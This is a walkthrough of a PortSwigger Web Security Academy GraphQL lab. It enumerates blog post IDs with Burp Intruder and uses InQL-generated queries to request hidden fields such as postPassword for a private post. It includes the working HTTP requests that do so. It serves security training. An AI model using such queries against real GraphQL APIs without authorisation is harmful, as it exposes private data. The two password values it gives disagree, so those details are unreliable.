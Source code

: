 # Lab: Accessing private GraphQL posts

**Level: APPRENTICE**

>The blog page for this lab contains a hidden blog post that has a secret password.

**To solve the lab, find the hidden blog post and enter the password.**

>We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater, and enables you to scan the API schema.

**Go to the lab:**
https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts

**For more information on using InQL, see** [Working with GraphQL in Burp Suite.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/working-with-graphql)


**Download the extension here ->** [InQL Scanner BApp Store](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)

---

**Solution**

There are different ways, but I liked this one:

1. Browse the site, clicking on various posts
2. check the proxy history in Burp Suite & notice each one is numbered
3. Since the goal is to find the missing blog post and password, you can do this manually to determine which is absent
4. OR
5. Send one of those `GET /post?postId=1` request to the intruder
6. higlight the post ID number, select a number payload, do **1 -10**, steb by **1**
8. run the attack and notice the response codes
9. Post Id's 1-2 have a response status code of 200
10. 4&5 have 200 response codes
11. But 3 has a 404 not found response
12. and anything 6 and up has a 400

Therefore, `GET /post?postId=3` is the hidden one you need to reveal
How?
Send one of the GraphQL queries `POST /graphql/v1` | `web-security-academy.net/graphql/v1` to the repeater,
**Request**
```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Cookie: session=D2XpAN8wg0l2tfdFMV0X6DcQUPGWieHx
Content-Length: 150
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net
Referer: https://0a3d00730319c7918190935f002e00b5.web-security-academy.net/post?postId=2
Priority: u=1, i

{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }",
"operationName":"getBlogPost",
"variables":{
  "id":2
  }
}

```


then, 
**Right-click on the request, select extensions -> InQL Graph Scanner -> Generate Queries with InQL Scanner**


 Now click on the InQL tab and scan the URL that you just sent there. 
 
 It should be this one:
 `web-security-academy.net/graphql/v1`
 
 Click Analyze, and open the `getBlogPosts.graphql` page and send it to repeater.
 Once that request is in the repeater request tab, it should look like this:
```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 228

{"query": "query {\n    getBlogPost(id: Int!) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"}

```
**Change the Int!** in the `getBlogPost(id: Int!)` query to `3` and send it.
The response should be the 3rd post, and the `"postPassword": "itsarandomstringoftext",`
will be at the bottom

**The edited request**
```json
POST /graphql/v1 HTTP/2
Host: 0a3d00730319c7918190935f002e00b5.web-security-academy.net
Content-Type: application/json
Content-Length: 225

{"query": "query {\n    getBlogPost(id: 3) {\n        author\n        date # Timestamp scalar\n        id\n        image\n        isPrivate\n        paragraphs\n        postPassword\n        summary\n        title\n    }\n}"
}

```

**The response will be the third post and the** "postPassword": "stringoftext", will be at the bottom
<br>
